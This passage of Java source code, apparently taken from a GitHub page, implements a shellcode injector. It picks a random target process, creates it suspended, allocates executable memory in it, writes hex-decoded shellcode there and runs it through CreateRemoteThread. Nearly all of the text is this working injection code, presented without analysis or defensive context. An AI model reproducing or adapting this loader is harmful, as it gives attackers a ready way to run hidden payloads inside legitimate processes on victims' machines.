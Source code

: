 ```java
      targetProcessArray = ProcessArrayx64;
    } else {
      targetProcessArray = ProcessArrayx32;
    }
    int j = targetProcessArray.length;
    Random random = new Random();
    int k = random.nextInt(j);
    String targetProcess = targetProcessArray[k];
    loadShellCode(shellcodeHex, targetProcess);
  }

  public void loadShellCode(String shellcodeHex, String targetProcess) {
    System.out.println("Targeting process: " + targetProcess);
    byte[] shellcode = hexStrToByteArray(shellcodeHex);
    int shellcodeSize = shellcode.length;
    IntByReference intByReference = new IntByReference(0);
    Memory memory = new Memory(shellcodeSize);
    for (int j = 0; j < shellcodeSize; j++)
      memory.setByte(j, shellcode[j]);

    WinBase.PROCESS_INFORMATION pROCESS_INFORMATION = new WinBase.PROCESS_INFORMATION();
    WinBase.STARTUPINFO sTARTUPINFO = new WinBase.STARTUPINFO();
    sTARTUPINFO.cb = new WinDef.DWORD(pROCESS_INFORMATION.size());

    // Create the target process in a suspended state
    if (kernel32.CreateProcess(targetProcess, null, null, null, false, new WinDef.DWORD(4L), null, null, sTARTUPINFO, pROCESS_INFORMATION)) {
      // Allocate memory in the remote process
      Pointer pointer = iKernel32.VirtualAllocEx(pROCESS_INFORMATION.hProcess, Pointer.createConstant(0), shellcodeSize, 4096, 64);
      
      // Write the shellcode to the allocated memory
      iKernel32.WriteProcessMemory(pROCESS_INFORMATION.hProcess, pointer, (Pointer)memory, shellcodeSize, intByReference);
      
      // Create a remote thread to execute the shellcode
      WinNT.HANDLE hANDLE = iKernel32.CreateRemoteThread(pROCESS_INFORMATION.hProcess, null, 0, pointer, 0, 0, null);
      
      // Wait for the shellcode to finish
      kernel32.WaitForSingleObject(hANDLE, -1);
    }
  }

  public static byte[] hexStrToByteArray(String str) {
    if (str == null)
      return null;
    if (str.length() == 0)
      return new byte[0];
    byte[] byteArray = new byte[str.length() / 2];
    for (int i = 0; i < byteArray.length; i++) {
      String subStr = str.substring(2 * i, 2 * i + 2);
      byteArray[i] = (byte)Integer.parseInt(subStr, 16);
    }
    return byteArray;
  }

  static interface IKernel32 extends StdCallLibrary {
    Pointer VirtualAllocEx(WinNT.HANDLE param1HANDLE, Pointer param1Pointer, int param1Int1, int param1Int2, int param1Int3);
    WinNT.HANDLE CreateRemoteThread(WinNT.HANDLE param1HANDLE, Object param1Object1, int param1Int1, Pointer param1Pointer, int param1Int2, int param1Int3, Object param1Object2);
```